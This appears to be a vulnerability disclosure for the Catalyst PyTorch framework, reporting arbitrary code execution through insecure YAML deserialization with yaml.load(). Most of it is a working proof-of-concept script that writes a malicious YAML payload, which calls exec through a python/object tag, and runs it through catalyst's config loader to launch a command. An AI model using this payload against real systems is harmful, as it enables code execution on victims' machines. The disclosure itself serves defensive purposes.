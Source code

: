 # Description

**Catalyst** is a PyTorch framework for Deep Learning research and development. It focuses on reproducibility, rapid experimentation, and codebase reuse so you can create something new rather than write another regular train loop.
This package was vulnerable to Arbitrary code execution via Insecure YAML deserialization due to the use of a known vulnerable function **load()** in **yaml**. <br>

repo: https://github.com/catalyst-team/catalyst

# Proof of Concept

```python
import os
os.system('pip3 install catalyst')
from catalyst.utils import config
exploit = """!!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "__import__('os').system('xcalc')"
"""
open('pwn.yml','w+').write(exploit)
config.load_config('pwn.yml')
```

* `pip3 install catalyst`
* `python3 exploit.py`
